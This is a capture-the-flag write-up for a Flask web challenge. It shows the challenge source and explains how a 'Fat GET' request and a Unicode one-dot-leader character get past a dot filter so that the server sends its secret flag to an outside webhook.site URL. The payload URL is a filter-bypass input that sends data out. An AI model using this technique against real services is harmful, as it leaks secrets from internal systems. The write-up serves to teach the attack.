





## Description

Here is my admin panel where I can make secret requests to my internal services and no one else should be able to do that.
But some hackers managed to do it, help me find the issue.
I have also made some changes to the code but I'm not sure if this will fix it.

**source code available**

## Solution

upon visiting the site, we get this page :



let's check the source code and see what happens when we submit something :

```python
from flask import Flask, request, jsonify, render_template
import requests
from unidecode import unidecode
app = Flask(__name__)
FLAG="shellmates{fakeflag}"

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/operation', methods=['GET',
                                # 'POST' I hope this will fix the issue
                                ])
def print_body_param():
    body_param = request.get_json()
    url = body_param.get('url', None)
    if url:
        # no points and no % => no external urls
        if ("%" in url) or ("." in url):
            return jsonify({"msg":"only requests to localhost are allowed"}),401
        # cleaning the url to store it later
        url=unidecode(url)
        url=url.replace(" ","")
        # sending request to local services
        try:
            res=requests.get(url+f"?secret={FLAG}")
            return jsonify({"msg":"request sent succesfully"}),200
        except:
            return jsonify({"msg":"soomething went wrong"}),500
    else:
        return jsonify({"msg":"no url was provided"}),400

if __name__ == '__main__':
    app.run(debug=False)
```

so when we submit a url, it will be sent in a parameter called `url`, then it checks if there is a `.` or `%`, and if so we get a 401 response.

if our URL is clean it proceeds to `unidecode` it and then send a request to it with the flag in the `secret` parameter.

so we need to setup a server and bypass that check to get a request to our server with the flag.

we can set a public server using `https://webhook.site/`, we can view all interactions with our given URL, but as all urls, it contains the dot characters which is filtered.

first let's intercept the submission request with burpsuite, and when we send it we get :



that's logical cause the server is set to only receive GET requests on this endpoint, but with GET we can't send json data in the URL, and here comes an interesting technique known as `Fat GET`, which is sending POST data in the body but with a GET request, so let's change the method from GET to POST and send it again :



that worked, now the only problem is how to bypass the filtered dot in our URL.

notice that the URL is getting `unidecoded`, this means we can specify unicode characters in the parameter, and with this we can actually bypass the filter by specifying other unicode characters that represent dots, i asked ChatGPT to give me some of the dots unicode :


cool, now if we replace the dot in our URL, we get something like this :

```
https://webhook\u2024site/270d21e8-85f2-4646-8060-25af2d23ec20
```

let's try submitting it :



we see that the request sent succesfully, let's check our web-hook :



- flag : `shellmates{GETT1nG_FAT_w1Th_UN1C0DE_inj3CtiON}`

